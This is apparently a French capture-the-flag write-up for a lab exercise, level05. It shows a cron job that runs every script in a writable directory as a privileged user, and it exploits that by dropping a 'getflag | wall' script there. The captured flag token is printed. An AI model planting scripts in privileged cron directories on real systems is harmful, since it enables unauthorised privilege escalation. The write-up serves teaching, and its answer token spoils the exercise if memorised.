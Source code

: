 # Level 05

À la connexion de l'user level05, on a une petite notification nous disant qu'on a reçu un nouveau mail. Donc la première chose qu'on fait c'est de voir ce mail
```
$ cat /var/mail/*
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
On a donc un script sh `/usr/sbin/openarenaserver` qui s'exécute périodiquement sur l'user flag05

```
$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
Ce script lit tous les fichiers présents dans le dossier `/opt/openarenaserver` et les lances avec bash puis les supprime.

On fait petit script qui va print sur tous les terminaux le flag
```
$ echo "getflag | wall" > /opt/openarenaserver/flagIsMine
```
Et voilà !
```
Broadcast Message from flag05@Snow
        (somewhere) at 17:16 ...

Check flag.Here is your token : viuaaale9huek52boumoomioc
```